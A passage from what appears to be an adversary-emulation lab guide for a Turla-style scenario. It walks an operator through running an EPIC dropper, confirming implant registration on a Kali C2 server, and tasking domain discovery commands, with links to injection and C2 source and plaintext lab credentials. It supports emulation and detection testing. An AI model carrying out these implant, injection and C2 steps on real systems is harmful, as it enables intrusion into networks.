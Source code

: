 * Double click on the downloaded `NFVersion_5e.exe` to run it.

* Wait 1 minute for it to finish running.

* Close out of all tabs and sign out of your RDP session.

* Re-RDP to `Azuolas (10.100.40.103)` as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

* Open Microsoft Edge and browse to `https://drebule.nk.local/owa`. Log in as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe
and, subsequently, EPIC's worker DLL into Microsoft Edge. 


* Within the terminal window, split your terminal horizontally via right-click -> split terminal. Be careful not to accidentally terminate the control server.

* In your lower terminal tab, task the EPIC implant with the following set of discovery commands:

```bash
cd /opt/day2/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | systeminfo && net group "Domain Computers" /domain'
```

---

### :moyai: Source Code

* [EPIC Dropper](../../Resources/EPIC/SimpleDropper)
  * [File write of EPIC injector](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L34-L50)
  * [Registry modification](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L95-L143)
* [EPIC Injector](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/)
  * Extract EPIC Guard DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L161-L193)
  * Targeting explorer.exe for [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L199-L233)
* [EPIC Guard](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/)
  * Extract EPIC payload DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L161-L193)
  * Targeting svchost.exe for payload [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L235-L283)
* [EPIC Payload](../../Resources/EPIC/payload/) (in msedge.exe)
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
  * User discovery [GetAllUsers](../../Resources/EPIC/payload/src/epic.cpp#L111-L182)
  * Directory discovery [DirectoryDiscovery](../../Resources/EPIC/payload/src/epic.cpp#L257-L298)
  * Write results to log file [WriteResults](../../Resources/EPIC/payload/src/epic.cpp#L311-L345)
  * C2 communications are:
    * [bzip2 compressed](../../Resources/EPIC/payload/src/comms.cpp#L462-L469)
    * [AES encrypted](../../Resources/EPIC/payload/src/comms.cpp#L483-L484)
    * [RSA encrypted AES key](../../Resources/EPIC/payload/src/comms.cpp#L487-L497)
    * [base64 encoded](../../Resources/EPIC/payload/src/comms.cpp#L505)
  * C2 communications are over [HTTPS](../../Resources/EPIC/payload/src/comms.cpp#L421-L458), [HTTPS specific flags](../../Resources/EPIC/payload/src/comms.cpp#L167-L196)
